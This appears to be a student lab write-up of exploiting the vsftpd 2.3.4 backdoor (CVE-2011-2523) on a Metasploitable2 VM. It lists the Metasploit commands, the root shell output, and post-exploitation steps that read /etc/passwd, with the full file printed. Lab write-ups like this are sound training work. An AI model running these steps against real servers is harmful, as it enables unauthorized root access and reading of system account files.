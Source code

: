 # 🔓 Cybersecurity Lab Report – vsftpd 2.3.4 Exploit Walkthrough

**Date:** 2025-05-14  
**Target:** Metasploitable2 (192.168.56.101)  
**Attacker:** Kali Linux (192.168.56.102)  
**Tool Used:** Metasploit Framework  
**Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`

** PLEASE VIEW THE README FOR A SUMMARY OF THIS LAB **

---

## Objective

Establish unauthorized remote access to a vulnerable FTP service (vsftpd 2.3.4) running on Metasploitable2 using the Metasploit Framework.

---

## Exploitation Steps

1. **Start Metasploit Console**
    ```bash
    msfconsole
    ```

2. **Search and select the exploit module**
    ```bash
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```

3. **Configure target IP**
    ```bash
    set RHOST 192.168.56.101
    ```

4. **Launch the exploit**
    ```bash
    exploit
    ```

5. **Successful Result**
    ```
    [+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.102:42427 -> 192.168.56.101:6200)
    ```

---

## Post-Exploitation Enumeration

## Whoami
```bash
whoami
> root

## System Information
uname -a
> Linux metasploitable 2.6.24-16-server ...

## User Enumeration
cat /etc/passwd

## Output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false

## Analysis
vsftpd 2.3.4 contains a backdoor vulnerability (CVE-2011-2523)

A crafted username triggers a hidden shell on port 6200

Exploitation using Metasploit successfully created a root shell session

/etc/passwd reveals many local user accounts:

root, msfadmin, postgres, user, service

## Outcome
Gained remote root access to Metasploitable2

Confirmed working exploit with Metasploit

Successfully performed post-exploitation enumeration

Verified lab network and tools are functioning as expected

